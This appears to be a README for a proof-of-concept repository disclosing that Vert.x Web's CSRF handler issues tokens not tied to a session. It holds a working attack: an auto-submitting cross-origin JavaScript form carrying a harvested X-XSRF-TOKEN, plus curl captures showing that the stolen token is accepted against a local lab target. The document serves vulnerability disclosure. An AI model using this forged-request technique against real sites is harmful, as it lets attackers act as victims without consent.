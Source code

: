 ## Overview ##

The CSRFHandlerImpl (`io.vertx.ext.web.handler.impl.CSRFHandlerImpl`) in Vert.x Web does not create CSRF Tokens that are unique per user session. A malicious website can still perform CSRF by obtaining a valid CSRF token and adding it to a HTML form and then submitting the form to the vulnerable web application.

Currently, the pre-flight CORS OPTIONS HTTP request prevents CSRF via XMLHTTPRequests, however, there might be a way to circumvent the pre-flight request. 

## Building ##

```
mvn clean package
```

## Testing ##

The application starts HTTP endpoints:
* Port 7777 hosts the malicious website 
* Port 8888 hosts the target website

Create a host entry for `target.local`, to ensure that the attacker and the target are not on the same domain.

The attacker web server will automatically poll the `target.local:8888` webpage for a valid XSRF token. If a user then navigates to the `http://localhost:7777` in their browser it will render an HTML page with an iframe. The iframe will be populated with a form with a valid X-XSRF-TOKEN form attribute that is automatically submitted to `target.local:8888`.

### Running ###

```
java -jar target/vertx-xsrf-1.0-SNAPSHOT-fat.jar
```

## Observed Behaviour ##

#### Chrome PoC ####

![Browser](browser.png)

```
<html>
<head>
</head>
<body>
<script>
var xsrftoken = "eWVJYuhAGvXRuaJFwiY7LBDg6Bk0/llUKea9Q8gIWxY=.1528880809229.awJQ69rmd18ATeEVqH0XC1EAjKXYfzPcIEAse9+ym1o=";

var f = document.createElement("form");
f.setAttribute('method', "post");
f.setAttribute('action', "http://target.local:8888/token");

var i = document.createElement("input"); 
i.setAttribute('type', "text");
i.setAttribute('name', "X-XSRF-TOKEN");
i.setAttribute('value',xsrftoken);

var s = document.createElement("input"); 
s.setAttribute('type', "submit");
s.setAttribute('value', "Submit");

f.appendChild(i);
f.appendChild(s);

document.getElementsByTagName('body')[0].appendChild(f);

f.submit();


</script>
</body>
</html>
```

#### Obtaining X-XSRF-TOKEN ####

```
curl http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> GET /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Length: 8
< Set-Cookie: XSRF-TOKEN=KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=; Path=/
< Set-Cookie: vertx-web.session=13c681351dee77d572f4f9b16d0c65a5; Path=/
<
* Connection #0 to host target.local left intact
Success!
```
#### POST without X-XSRF-TOKEN ####

```
curl -X POST http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 403 Forbidden
< Content-Length: 9
<
* Connection #0 to host target.local left intact
Forbidden
```

#### Submitting Invalid X-XSRF-Token as HTTP Header ####

```
curl -X POST -H 'X-XSRF-TOKEN: THISISNOTAVALIDTOKENPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> X-XSRF-TOKEN: THISISNOTAVALIDTOKENPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=
>
< HTTP/1.1 403 Forbidden
< Content-Length: 9
<
* Connection #0 to host target.local left intact
Forbidden
```

#### Submitting X-XSRF-Token as HTTP Header ####

```
curl -X POST -H 'X-XSRF-TOKEN: KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> X-XSRF-TOKEN: KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg=.1528880169033.xENGuHNUEXi33wdIkIH+Hlq7PSS+0QJgFQbOIVPnYq8=
>
< HTTP/1.1 200 OK
< Content-Length: 8
< Set-Cookie: vertx-web.session=23b96851535d983b458e92280ffe49f5; Path=/
<
* Connection #0 to host target.local left intact
Success!
```

#### Submitting Invalid X-XSRF-Token as formAttribute ####

```
curl --data 'X-XSRF-TOKEN=THISISNOTAVALIDTOKENPj0glJlO5DeMogcl5cuVVNUQg%3D.1528880169033.xENGuHNUEXi33wdIkIH%2BHlq7PSS%2B0QJgFQbOIVPnYq8%3D' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> Content-Length: 126
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 126 out of 126 bytes
< HTTP/1.1 403 Forbidden
< Content-Length: 9
<
* Connection #0 to host target.local left intact
Forbidden
```

#### Submitting X-XSRF-Token as formAttribute ####

```
curl --data 'X-XSRF-TOKEN=KXTHspnG6reKqXCzpLPj0glJlO5DeMogcl5cuVVNUQg%3D.1528880169033.xENGuHNUEXi33wdIkIH%2BHlq7PSS%2B0QJgFQbOIVPnYq8%3D' http://target.local:8888/token -v
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to target.local (127.0.0.1) port 8888 (#0)
> POST /token HTTP/1.1
> Host: target.local:8888
> User-Agent: curl/7.54.0
> Accept: */*
> Content-Length: 124
> Content-Type: application/x-www-form-urlencoded
>
* upload completely sent off: 124 out of 124 bytes
< HTTP/1.1 200 OK
< Content-Length: 8
< Set-Cookie: vertx-web.session=50deb90796d7babc77860be5ae36ae0e; Path=/
<
* Connection #0 to host target.local left intact
Success!
```